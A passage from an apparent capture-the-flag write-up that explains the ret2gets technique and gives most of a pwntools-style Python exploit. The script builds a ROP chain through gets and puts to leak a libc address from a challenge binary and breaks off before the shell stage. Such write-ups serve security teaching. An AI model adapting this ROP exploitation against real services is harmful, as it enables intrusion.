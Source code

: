 Gotcha! we notice that when we call the `fgets` function, the value of `RDI` will then be a writable area right below our libc and that is `_IO_stdfile_0_lock`. And we will use the `ret2gets` technique here to leak the necessary data. Since this is just a write up, I will not go into the depth of this `gets` function (I will write an article about this technique later). But for now you can read [here](https://sashactf.gitbook.io/pwn-notes/pwn/rop-2.34+/ret2gets) to get a rough idea of ​​it.

## Exploit Development

With the ideas we have analyzed above, we can easily leak libc and from there get shell.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall_patched', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*main+170
        b*main+460
        c
        '''.format(**locals()), *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

p = start()

# ==================== EXPLOIT ====================

def choice(option):

    sl(str(f'{option}'))

def stage1():

    pop_rbp = 0x40115d # pop rbp; ret;
    ret = 0x401016

    payload = flat({
        offset: [
            exe.plt["gets"],
            exe.plt["gets"],
            exe.plt["puts"],
            exe.sym["main"]
        ]
    })

    choice(1)
    sla(b'name:\n', payload)
    choice(1)
    choice(2)

    sl(b"A" * 4 + b"\x00"*3)

    ru(b"AAAA\xff\xff\xff\xff")
    leak = u64(rl()[:-1].ljust(0x8, b'\0'))
    libc.address = leak + 0x28c0
```
